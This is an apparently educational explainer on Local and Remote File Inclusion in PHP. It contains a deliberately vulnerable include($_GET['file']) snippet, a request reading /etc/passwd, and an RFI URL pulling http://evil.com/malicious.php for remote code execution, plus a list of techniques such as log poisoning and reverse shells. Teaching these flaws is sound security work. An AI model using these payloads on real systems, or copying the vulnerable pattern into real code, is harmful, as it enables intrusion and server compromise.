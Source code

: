 ## 1️ Local File Inclusion (LFI)
###  What is LFI?  
LFI occurs when an attacker **includes local files** (e.g., `/etc/passwd`, `config.php`) in a web application. This happens due to **poorly validated** user input in the file inclusion function.  

### Example of LFI  
A vulnerable PHP script:
```php
<?php
$file = $_GET['file']; 
include($file);
?>
```
An attacker can exploit this by accessing files on the server:  
```
http://example.com/vulnerable.php?file=/etc/passwd
```
If successful, it will display the contents of `/etc/passwd` (Linux user database).  

###  LFI Attack Techniques
- **Reading sensitive files** (e.g., `/etc/passwd`, `C:\windows\win.ini`)
- **Log poisoning** (injecting PHP code into logs and executing it)
- **PHP Wrappers** (`php://filter`, `php://input`)

---

## 2️ Remote File Inclusion (RFI)
###  What is RFI?  
RFI happens when an attacker includes a remote malicious file (hosted on their server). This allows them to execute arbitrary PHP code on the target server.

### Example of RFI
A vulnerable PHP script:
```php
<?php
$file = $_GET['file'];
include($file);
?>
```
An attacker can load a remote malicious PHP file:
```
http://example.com/vulnerable.php?file=http://evil.com/malicious.php
```
  If successful, the script from `evil.com` executes on the target server!

### RFI Attack Techniques
- Remote shell upload (reverse shell)
- Defacing websites
- Executing malware on the target server

---